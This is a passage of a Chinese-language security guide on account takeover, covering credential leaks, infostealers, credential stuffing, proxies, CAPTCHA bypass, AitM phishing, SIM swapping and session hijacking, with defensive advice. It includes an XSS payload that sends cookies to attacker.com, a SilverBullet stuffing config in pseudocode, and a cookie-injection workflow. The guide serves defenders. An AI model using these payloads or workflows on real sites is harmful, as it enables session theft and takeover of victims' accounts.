




## 5. 账户接管（ATO）与欺诈

账户接管（Account Takeover，ATO）是指攻击者通过各种手段获取合法用户的账户凭据或会话状态，冒充账户所有者登录并控制账户的行为。ATO 是网络犯罪中最普遍、最直接的变现手段之一——它不需要攻击者自己构建系统或产品，只需要"接管"别人已有的资产即可获利。

根据 Verizon《2024 数据泄露调查报告》（DBIR），超过 80% 的黑客相关数据泄露涉及被盗凭据或暴力破解；Javelin Strategy 估计美国每年因 ATO 造成的直接经济损失超过 100 亿美元。ATO 不是一个单独的攻击技术，而是一个**完整攻击链**——从凭据获取、自动化验证、账户控制到最终变现，每个环节都有不同的技术栈、工具链和对抗策略。

理解这条攻击链是构建有效防御的前提。本节将系统剖析 ATO 的每一个环节，同时为防御者提供可落地的检测与响应方案。

---

### 5.1 ATO 攻击全景

#### 5.1.1 ATO 攻击链模型

一个完整的 ATO 攻击包含五个阶段，每个阶段都有特定的技术栈和对抗策略：



**各阶段详解：**

| 阶段 | 核心目标 | 典型耗时 | 关键技术 | 防御窗口 |
|------|---------|---------|---------|---------|
| 凭据获取 | 拿到用户名+密码（或Token） | 秒级-数月 | 钓鱼、Infostealer、泄露库 | 终端防护、邮件安全 |
| 自动化验证 | 确认哪些凭据有效 | 小时-天 | 撞库、代理池、验证码绕过 | 速率限制、异常检测 |
| 资产控制 | 修改密码/绑定/建立持久化 | 分钟-小时 | 会话劫持、设备信任、恢复流程 | 异常操作告警 |
| 资产变现 | 将控制权转化为现金 | 小时-天 | 转账、购物、身份冒充 | 交易风控、行为分析 |
| 洗钱/销赃 | 消除资金追踪链 | 天-周 | 混币、多层转账、第三方洗钱 | 银行反洗钱、链上追踪 |

#### 5.1.2 ATO 规模与趋势

| 指标 | 数据 | 来源 |
|------|------|------|
| 每年因 ATO 造成的直接损失（美国） | 超过 100 亿美元 | Javelin Strategy |
| 数据泄露中涉及凭据的比例 | 80%+ | Verizon DBIR 2024 |
| 暗网流通的泄露凭据数量 | 超过 240 亿对 | Digital Shadows |
| 消费者遭遇 ATO 的比例 | 约 22% 曾遭遇过 | Ping Identity |
| 凭证填充攻击占比（所有 web 攻击） | 约 35% | Akamai |

**关键趋势：**
- **工业化**：ATO 已从个人手动操作演变为分工明确的犯罪产业链，每个环节都有专业供应商
- **AI 增强**：大语言模型被用于生成更逼真的钓鱼邮件，机器学习被用于自动化验证码识别
- **MFA 绕过技术成熟化**：AitM（Adversary-in-the-Middle）钓鱼平台使传统 MFA 保护形同虚设
- **云身份成新战场**：企业 SSO 被攻破意味着所有关联应用同时沦陷，攻击价值倍增
- **Infostealer 爆发式增长**：2023 年 Infostealer 感染导致的新泄露凭据超过 1 亿条（Recorded Future）

---

### 5.2 凭据获取：攻击的起点

凭据是 ATO 攻击链的第一环。攻击者获取凭据的方式可以分为**被动获取**（利用已有泄露数据）和**主动获取**（主动钓鱼或窃取）两大类。

#### 5.2.1 数据泄露与暗网交易

大规模数据泄露是 ATO 的主要凭据来源。Hudson Rock 的研究显示，到 2024 年，全球互联网用户的平均凭据已被泄露 4 次以上。

**主要暗网交易平台类型：**

- **暗网市场**（如曾经的 Genesis Market、Russian Market）：售卖"数字指纹"包（cookies、浏览器指纹、凭据），买家可以直接模拟受害者的浏览器环境完成登录
- **违规论坛**（如 BreachForums 继任者）：免费或低价分享泄露数据库，是凭据交易的集散地
- **Telegram 频道**：近年来成为泄露数据分发的主要渠道，大量 bot 提供凭据查询服务，响应速度远快于传统暗网市场
- **Paste 站点**：Pastebin 等平台上经常出现未加密的凭据转储（credential dumps）

**凭据数据格式：**

泄露数据通常以 `email:password` 或 `username:password` 格式存储，高级的还会包含：

- 来源网站/服务名
- 泄露时间
- 密码哈希（bcrypt、SHA-256 等，需要破解后才能使用）
- 关联的个人信息（姓名、地址、电话、信用卡部分号码）

```text
# 典型的泄露数据格式示例（已脱敏）
# 明文凭据（最常见）
john@example.com:your_password123
jane.doe@email.com:qwerty2024

# 哈希格式（需要破解）
user@email.com:$2b$12$LJ3m4ys3Gz...
user2@email.com:{SHA}W6ph5Mm5Pz8G...

# 完整泄露条目
{
  "email": "john@example.com",
  "password_hash": "$2b$12$LJ3m4ys3Gz...",
  "source": "某电商平台 2024年3月泄露",
  "records": 5000000,
  "personal_info": {
    "name": "John Doe",
    "phone": "+86 138xxxx1234",
    "address": "某省某市某区"
  }
}
```

**凭据去重与清洗流程：**

拿到原始泄露数据后，攻击者通常会进行以下处理：

1. **去重**：移除重复的 email/username 条目（同一用户在不同网站可能有多个账户）
2. **格式统一**：统一为 `user:pass` 格式，去除无关字段
3. **密码规则过滤**：根据目标网站的密码策略过滤明显不符合的条目（如最小长度要求）
4. **邮箱有效性验证**：通过 SMTP 探测或第三方 API 检查邮箱是否仍然活跃
5. **风险标记**：标注已知的蜜罐账户、安全研究人员账户
6. **价值评估**：根据关联的个人信息丰富度对账户进行分级（普通用户 vs VIP/企业用户）

**凭据数据的价格区间：**

| 凭据类型 | 单价范围 | 说明 |
|----------|---------|------|
| 普通网站明文密码 | $0.01-$0.10/条 | 批量出售，量大从优 |
| 带个人信息的完整资料 | $10-$50/条 | 包含姓名、地址、电话、安全问题答案 |
| 金融账户凭据 | $50-$500/条 | 银行、支付平台、券商 |
| 加密货币交易所账户 | $100-$1000/条 | 取决于余额和验证级别 |
| 企业邮箱凭据 | $50-$500/条 | 可用于 BEC 攻击 |

#### 5.2.2 钓鱼攻击获取凭据

除了被动等待泄露数据，攻击者也会主动通过钓鱼获取凭据：

**批量钓鱼（Spray Phishing）：**
- 伪装成知名服务（银行、邮箱、社交平台、云服务商）发送大量钓鱼邮件
- 利用紧迫感（"您的账户异常"、"密码即将过期"、"您的订阅即将终止"）诱导用户输入凭据
- 钓鱼页面通常是目标网站的完美克隆，通过 URL 欺骗（子域名、相似域名）或跳转链接掩盖真实地址

**鱼叉式钓鱼（Spear Phishing）：**
- 针对特定个人或组织的精准钓鱼
- 利用目标的个人信息（同事姓名、项目名称、组织架构）提高可信度
- 在企业 ATO 中极为有效——攻击者研究目标组织的邮件风格后发出的邮件几乎无法被识别为钓鱼

**短信钓鱼（Smishing）：**
- 通过短信发送钓鱼链接，利用手机屏幕较小、URL 不易辨认的特点
- 典型场景：伪装成快递通知、银行安全提醒、社保/税务通知
- 近年来增长最快的钓鱼渠道之一，打开率约 35%（远高于邮件的 3-5%）

**语音钓鱼（Vishing）：**
- 直接电话联系目标，冒充客服或技术支持骗取凭据
- 结合深度伪造语音技术，可以克隆目标信任对象的声音
- 常与 SIM Swapping 配合使用

#### 5.2.3 恶意软件窃取（Infostealer）

信息窃取恶意软件（Infostealer）是近年来增长最快的凭据获取渠道之一。根据 Hudson Rock 的统计，2023 年全球因 Infostealer 泄露的新凭据超过 1 亿条。

**主流 Infostealer 对比：**

| 恶意软件 | 传播方式 | 主要窃取内容 | 特殊能力 | 月费（MaaS） |
|----------|---------|-------------|---------|-------------|
| RedLine | 捆绑软件、广告 | 浏览器密码、Cookie、自动填充 | 轻量级，易部署 | $100-$200 |
| Raccoon Stealer v2 | 软件破解包 | 密码、Cookie、加密钱包、信用卡 | 全面的数据收集 | $150-$300 |
| Vidar | 恶意广告、伪装软件 | 密码、Cookie、浏览历史、截图 | 自动截取屏幕 | $130-$250 |
| Lumma | 社交媒体传播 | 密码、Cookie、Token、Passkey | 强反检测能力 | $200-$400 |
| RisePro | 软件破解激活工具 | Cookie、自动填充、加密钱包 | 高效的 Cookie 提取 | $150-$300 |

**Infostealer 的核心危害：**

Infostealer 不仅窃取密码，还窃取浏览器的 **Cookie 和 Session Token**。这意味着即使用户启用了双因素认证（2FA），攻击者也可以通过以下方式绕过：

1. **Cookie 注入**：使用窃取的有效 Session Cookie 直接注入浏览器，跳过整个登录流程（包括 MFA 验证）
2. **Token 窃取**：窃取 OAuth Access Token 或 Refresh Token，直接获得 API 访问权限
3. **数字指纹复用**：Genesis Market 等平台出售完整的浏览器环境配置（User-Agent、Canvas 指纹、WebGL 指纹、插件列表），攻击者可以在与受害者完全一致的浏览器指纹环境中使用 Cookie 登录

**Cookie 注入攻击流程：**

```text
1. 受害者电脑感染 Infostealer
2. 恶意软件提取 Chrome 的 Cookies SQLite 数据库
3. 恶意软件提取 Chrome 的 Local State（用于解密 Cookie 值）
4. 数据打包上传到攻击者控制的 C2 服务器
5. 攻击者在 Telegram Bot 或专用面板中筛选高价值 Cookie
6. 使用专门工具（如 EditThisCookie）或浏览器配置文件注入 Cookie
7. 直接访问目标网站——已处于登录状态，无需任何凭据输入
```

#### 5.2.4 账户枚举（Account Enumeration）

在获取泄露数据后，攻击者还需要确认哪些凭据仍然有效。这个过程称为账户枚举：

- **用户名有效性检测**：通过登录接口的错误信息差异（"用户不存在" vs "密码错误"）判断账户是否存在
- **邮箱验证**：通过 SMTP 探测检查邮箱地址是否仍然活跃
- **密码重置接口**：部分网站的密码重置接口会泄露账户是否存在
- **社交平台检测**：通过"忘记密码"页面或登录尝试确认社交平台账户是否存在

**防御要点**：网站应在所有接口返回统一的错误信息（如"用户名或密码错误"），避免泄露账户是否存在。

---

### 5.3 凭证填充与撞库

#### 5.3.1 核心原理

凭证填充（Credential Stuffing）和撞库（Credential Reuse Attack）是 ATO 最常见的自动化攻击手段，核心利用的是**用户在多个网站重复使用相同密码**的习惯。

据 Google 与 Harris Poll 的联合研究，约 **65%** 的用户在多个服务中使用相同的密码。这意味着攻击者只需要获取某个网站的一组泄露凭据，就可以尝试登录其他网站——这被称为"横向凭据复用攻击"。

**凭证填充 vs 暴力破解的区别：**

| 维度 | 凭证填充 | 暴力破解 | 密码喷洒 |
|------|----------|----------|---------|
| 输入来源 | 泄露的真实凭据库 | 随机生成或字典组合 | 常见密码列表 |
| 成功率 | 较高（1%-3%） | 极低（<0.01%） | 中等（0.1%-1%） |
| 检测难度 | 高（模拟正常登录） | 低（大量失败尝试） | 中等 |
| 所需资源 | 需要泄露数据库 | 只需计算能力 | 少量密码 + 大量用户名 |
| 触发锁定 | 较难（每账户仅试少量密码） | 容易 | 中等 |
| 典型工具 | OpenBullet、SilverBullet | Hydra、Medusa | 自定义脚本 |

**密码喷洒（Password Spraying）** 是凭证填充的变种——使用少量常见密码（如 `Password1!`、`Summer2024!`）对大量账户进行尝试，目的是规避基于"单账户失败次数"的锁定策略。

#### 5.3.2 主流撞库工具

**OpenBullet / SilverBullet：**

OpenBullet 是最广泛使用的凭证填充框架，原版已停止更新，社区分支 SilverBullet 和 OpenBullet 2 仍在活跃维护。其核心架构包括：

- **Config（配置文件）**：针对特定网站的登录流程编写的数据解析规则，使用 LoliCode 脚本语言定义请求-响应流程
- **Wordlist（字典）**：用户名:密码组合列表，通常以 `email:password` 格式存储
- **Proxy（代理）**：用于分散请求来源，规避 IP 封禁
- **Data（数据源）**：可以是文件、数据库或 API 接口

```text
# 典型的 SilverBullet Config 逻辑（伪代码）
REQUEST POST "https://target.com/login"
  CONTENT "email=<USER>&password=<PASS>"
  HEADER "Content-Type: application/x-www-form-urlencoded"
  HEADER "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)..."
  
KEYCHECK
  KEYCHAIN SUCCESS OR
    KEY "Welcome back"
    KEY "dashboard"
    KEY "location" IN RESPONSE
  KEYCHAIN FAILURE OR
    KEY "Invalid credentials"
    KEY "incorrect password"
    KEY "no account found"
  KEYCHAIN BAN OR
    KEY "Too many attempts"
    KEY "captcha"
    KEY "blocked"

PARSE "<SOURCE>" LR "\"email\":\"" "\"|PARSE" LR "\"balance\":" "," SYSTEM
```

Config 中还可以定义数据解析规则（PARSE），用于从成功登录后的响应中提取有价值的信息（如账户余额、会员等级、绑定信息），从而对有效账户进行进一步分类和估值。

**其他常用工具：**

- **Sentry MBA**：较早期的凭证填充工具，可视化配置界面，社区提供大量现成 Config 文件
- **Vertex**：高性能撞库框架，支持多线程和分布式部署
- **BlackBullet**：基于 Python 的撞库框架，适合 Linux 环境自动化运行
- **自定义脚本**：高级攻击者使用 Python（requests + asyncio）或 Go 编写定制化撞库工具，针对特定目标优化

#### 5.3.3 代理基础设施

凭证填充的关键基础设施是代理池。没有代理的撞库会被目标网站迅速封禁 IP，规模化运营需要庞大的代理网络：

| 代理类型 | 特点 | 信任度 | 成本（每GB） | 适用场景 |
|----------|------|--------|-------------|---------|
| 住宅代理（Residential） | IP 来自真实家庭宽带，最难检测 | 最高 | $5-$15 | 高安全目标 |
| 数据中心代理（DC Proxy） | 成本低、速度快，但容易被识别 | 低 | $0.5-$3 | 低安全目标、大规模测试 |
| 移动代理（Mobile/4G） | IP 来自移动运营商 CGNAT，信任度极高 | 高 | $15-$30 | 流媒体、App、金融 |
| ISP 代理 | 住宅 IP 段 + 数据中心性能 | 中-高 | $3-$8 | 平衡性能与隐蔽性 |
| 旋转代理（Rotating） | 每次请求自动更换 IP | 取决于来源 | 按流量计费 | 大规模自动化 |

**代理池规模估算：** 一次针对大型网站的凭证填充攻击，如果要避免被速率限制检测，通常需要每秒切换不同的 IP。测试 100 万组凭据可能需要 10 万+ 个不同的代理 IP（假设每个 IP 在同一网站仅使用 10 次）。

**主要代理供应商（暗网/灰色市场）：**
- Bright Data、Oxylabs、Smartproxy（合法企业级代理，也被犯罪网络大量使用）
- 地下代理市场：通过 Telegram 出售的"独享住宅代理"，按 IP 数量计费
- 僵尸网络：通过恶意软件控制的设备构成的代理网络（如 FluBot 感染的手机）

#### 5.3.4 验证码对抗

现代网站普遍使用验证码（CAPTCHA）来阻止自动化登录尝试，这成为凭证填充的主要障碍之一。攻击者的应对策略：

**验证码识别服务：**

| 服务 | reCAPTCHA v2 价格 | reCAPTCHA v3 价格 | 平均响应时间 |
|------|------------------|------------------|-------------|
| 2Captcha | $1-3/千次 | $2-5/千次 | 10-30 秒 |
| Anti-Captcha | $1-2/千次 | $2-4/千次 | 5-20 秒 |
| CapSolver | $0.8-2/千次 | $1.5-3/千次 | 5-15 秒 |
| CapMonster | $0.8-1.5/千次 | $1.5-3/千次 | 10-25 秒 |

这些服务使用人工+AI 混合模式：AI 先尝试自动识别，无法识别的分发给人工操作员完成。

**浏览器自动化：**
- 使用 Puppeteer、Playwright、Selenium 等无头浏览器完整渲染页面
- 模拟真实用户行为（鼠标移动、滚动、点击延迟）
- 配合指纹伪造工具（如 Puppeteer Extra Stealth Plugin）绕过浏览器自动化检测

**高级绕过技术：**
- **Cookie 复用**：收集一次性通过的 CAPTCHA Cookie，在有效期内复用
- **Session 复用**：某些网站的 CAPTCHA 验证仅在首次登录时触发，后续请求复用同一 Session
- **TLS 指纹伪装**：使用 curl-impersonate 或 tls-client 模拟真实浏览器的 TLS 握手指纹
- **Canvas/WebGL 指纹伪造**：确保自动化浏览器的 Canvas 和 WebGL 指纹与真实浏览器一致

#### 5.3.5 撞库成功率的影响因素

撞库并非简单的"试一试"，成功率受多种因素影响：

| 影响因素 | 对成功率的影响 | 说明 |
|----------|---------------|------|
| 凭据数据时效性 | 极高 | 6个月内的泄露数据成功率远高于2年以上的 |
| 目标网站安全等级 | 高 | 有 MFA 的网站撞库成功率骤降至接近 0 |
| 代理质量 | 高 | 住宅代理的成功率比数据中心代理高 3-5 倍 |
| 目标网站密码策略 | 中 | 强密码策略（16位+复杂度）的网站成功率低 |
| 字典针对性 | 中 | 针对特定人群（如某行业用户）的字典更有效 |
| 验证码对抗能力 | 中 | 能有效处理 CAPTCHA 的撞库工具效率更高 |
| 速率控制 | 中 | 合理的请求速率可降低被封禁的风险 |

#### 5.3.6 检测与防御策略

网站运营者可以部署以下检测手段来识别凭证填充攻击：

**速率限制（Rate Limiting）：**

```python
# 速率限制配置示例（Python/Flask + Redis）
from flask_limiter import Limiter

limiter = Limiter(
    app=app,
    key_func=get_remote_address,
    storage_uri="redis://localhost:6379"
)

# 基于 IP 的登录频率限制
@app.route("/login", methods=["POST"])
@limiter.limit("5/minute")  # 每分钟最多 5 次
@limiter.limit("20/hour")   # 每小时最多 20 次
def login():
    # 登录逻辑
    pass

# 基于账户的失败次数限制（需要在应用层实现）
def check_account_lockout(username):
    key = f"failed_login:{username}"
    failures = redis.get(key)
    if failures and int(failures) >= 5:
        return True  # 账户已锁定
    return False
```

**行为分析检测矩阵：**

| 行为特征 | 正常用户 | 撞库攻击 | 检测方法 |
|----------|---------|---------|---------|
| 登录前行为 | 浏览多个页面 | 直接 POST 登录接口 | 检查 Session 浏览历史 |
| 登录时间分布 | 符合人类作息 | 可能集中或均匀分布 | 时间分布分析 |
| User-Agent | 真实浏览器 | 统一或有限变化 | UA 一致性检查 |
| TLS 指纹 | 多样化 | 工具特征明显 | JA3/JA4 指纹匹配 |
| 请求头顺序 | 浏览器特征 | 按代码顺序排列 | Header 顺序分析 |
| Cookie 行为 | 正常 Cookie 传递 | 无 Cookie 直接请求 | Cookie 参与度分析 |
| 密码错误率 | <5% | >95% 失败 | 实时失败率监控 |

**凭据泄露检测：**

- 集成 Have I Been Pwned（HIBP）等泄露检测 API，在用户注册和登录时检查密码是否已知泄露
- 实施密码黑名单策略，禁止使用已知泄露的密码
- 主动通知使用泄露密码的用户强制修改密码
- 使用 k-anonymity 模型（HIBP 的 Passwords API）避免传输完整密码哈希

---

### 5.4 高级 ATO 攻击向量

#### 5.4.1 Adversary-in-the-Middle（AitM）钓鱼

AitM 钓鱼是近年来增长最快的 ATO 攻击方式，它能在用户正常输入凭据和完成 MFA 验证时实时拦截所有数据，**彻底绕过传统 MFA 保护**。

**AitM 钓鱼与传统钓鱼的关键区别：**

| 维度 | 传统钓鱼 | AitM 钓鱼 |
|------|---------|----------|
| 凭据获取 | 用户输入后发送到攻击者 | 实时代理所有流量 |
| MFA 处理 | 无法处理 | 实时转发 MFA 响应，获取有效 Session |
| Session 状态 | 仅有凭据 | 获得完全有效的登录 Session |
| 后续操作 | 需要凭据重新登录 | 直接使用 Session Cookie 登录 |
| 检测难度 | 中等 | 极高（所有请求通过真实服务器中转） |

**主流 AitM 钓鱼平台：**

| 平台 | 特点 | 月费 |
|------|------|------|
| EvilProxy | 最成熟，支持 120+ 网站 Config | $250-$400/月 |
| Greatness | 专注于 M365，内置 MFA 处理 | $120-$150/月 |
| Muraena | 开源框架，需要自行部署 | 免费（自建成本） |
| Nexphisher | 简化版，支持主流平台 | $100-$200/月 |
| Caffeine | 即服务模式，无需技术知识 | $200-$300/月 |

**AitM 攻击流程（以 Microsoft 365 为例）：**



#### 5.4.2 SIM 卡交换攻击（SIM Swapping）

SIM Swapping 是针对启用了短信双因素认证（SMS 2FA）账户的攻击手段。攻击者通过社会工程或贿赂电信运营商员工，将受害者的手机号码转移到自己控制的 SIM 卡上。

**攻击流程详解：**

1. **信息收集**：通过社交媒体、数据泄露库收集受害者个人信息（姓名、身份证号、手机号、地址、生日）
2. **社交工程**：联系运营商客服，冒充受害者声称"手机丢失"或"SIM 卡损坏"
3. **身份验证绕过**：提供收集到的个人信息通过运营商的身份验证（部分运营商验证薄弱）
4. **号码转移**：运营商将号码转移到攻击者的新 SIM 卡
5. **密码重置**：使用"忘记密码"功能，通过短信验证码重置邮箱、银行、加密货币交易所密码
6. **全面接管**：攻击者控制了受害者所有使用短信 2FA 的账户

**SIM Swapping 的经济损失数据：**

| 时间 | 受害者 | 损失金额 | 攻击细节 |
|------|--------|---------|---------|
| 2022年 | 加密货币投资者 | 2000万美元 | 贿赂运营商内部员工 |
| 2020年 | Twitter 员工 | 大规模账户接管 | 社会工程获取内部工具访问 |
| 2019年 | 加密货币交易所用户 | 2400万美元 | 10+ 名攻击者的团伙行动 |

**防御措施：**
- 向运营商设置 SIM 卡锁定 PIN（防止未授权转移）
- 要求运营商在号码转移时需要到店验证+证件原件
- 将关键账户的 2FA 从 SMS 切换到 Authenticator App 或硬件安全密钥
- 使用不公开的"影子号码"接收重要验证码（运营商提供的副号服务）

#### 5.4.3 MFA 疲劳攻击（MFA Fatigue / Push Bombing）

当目标账户启用了基于推送通知的 MFA（如 Microsoft Authenticator、Duo Push）时，攻击者采用的新型绕过手段：

**攻击原理：**
1. 攻击者获取用户密码（通过钓鱼或泄露库）
2. 在目标设备上尝试登录
3. 触发 MFA 推送通知到受害者手机
4. **反复触发**（每分钟多次），直到受害者被烦到或误操作点击"批准"
5. 一旦受害者点击批准，攻击者获得完整登录权限

**真实案例：**
- 2022 年 Uber 被攻破事件中，攻击者正是使用 MFA 疲劳攻击：向 Uber 员工发送大量 MFA 推送请求，最终该员工在被持续骚扰后点击了"批准"
- 攻击者随后在内部系统中发现了 Uber 的 PAM（特权访问管理）工具凭据，获得了对整个基础设施的访问权

**防御措施：**
- 实施 MFA 推送通知的频率限制（如每 5 分钟最多 1 次推送）
- 推送通知中显示登录位置、IP 地址等上下文信息，帮助用户判断是否为合法请求
- 当检测到异常频率的 MFA 请求时，自动锁定账户并通知用户
- 从 MFA Push 切换到 TOTP（基于时间的一次性密码），因为 TOTP 无法被"轰炸"
- 推广使用 FIDO2/Passkey（硬件安全密钥），这是目前最安全的 MFA 方案

#### 5.4.4 会话劫持（Session Hijacking）

即使不获取密码，攻击者也可以通过劫持已认证的会话来接管账户：

**XSS Cookie 窃取：**
如果目标网站存在 XSS（跨站脚本）漏洞，攻击者可以注入脚本窃取 Session Cookie：

```javascript
// 存储型 XSS payload 示例（仅供理解攻击原理）
// 攻击者将此脚本注入目标网站的评论、帖子等用户输入字段
<script>
  // 将 Cookie 发送到攻击者控制的服务器
  new Image().src = "https://attacker.com/steal?c=" + encodeURIComponent(document.cookie);
</script>

// 更隐蔽的变种——使用事件监听器

```

**中间人攻击（MITM）：**
- 在公共 Wi-Fi 等不安全网络环境中，攻击者可以截获未加密的 HTTP 流量中的 Session Token
- 通过 ARP 欺骗或 DNS 劫持重定向流量
- TLS 剥离攻击：迫使 HTTPS 连接降级为 HTTP

**Cookie 注入：**
使用窃取的或购买的 Cookie，通过浏览器开发者工具或专门的 Cookie 注入工具直接注入有效的 Session，绕过整个登录流程。Genesis Market 等平台甚至提供一键导入 Cookie 的浏览器配置文件。

#### 5.4.5 OAuth Token 盗取

现代应用广泛使用 OAuth 2.0 进行第三方授权登录。如果攻击者能够获取用户的 OAuth Refresh Token 或 Access Token，就可以在不知道密码的情况下持续访问用户的账户。

**攻击方式：**

- **恶意应用授权**：诱导用户授权恶意的第三方应用，获取过宽的 OAuth Scope
- **重定向漏洞利用**：利用 OAuth 流程中的重定向 URI 校验漏洞窃取 Authorization Code
- **Token 存储泄露**：从泄露的数据库或浏览器存储中获取未加密的 Token
- **恶意浏览器扩展**：安装看似正常的浏览器扩展，后台窃取页面中的 Token

**OAuth ATO 的危害特别严重：**
- Token 通常有较长的有效期（Refresh Token 可能数月不过期）
- 即使用户修改密码，已授权的 OAuth 应用通常不受影响
- 大量应用使用 OAuth 做 SSO，一个 Token 可能解锁多个服务

**防御措施：**
- 定期审查已授权的第三方应用列表
- 撤销不再使用的应用授权
- 实施 Token 轮换策略（定期强制 Refresh Token 重新授权）
- 监控异常的 Token 使用行为（新 IP、新设备）

#### 5.4.6 会话固定攻击（Session Fixation）

攻击者预设一个已知的 Session ID，然后诱使受害者使用该 ID 登录。当受害者成功登录后，攻击者就可以使用该 Session ID 获得受害者的已认证会话。

**攻击流程：**
1. 攻击者在目标网站获取一个 Session ID（如通过访问网站）
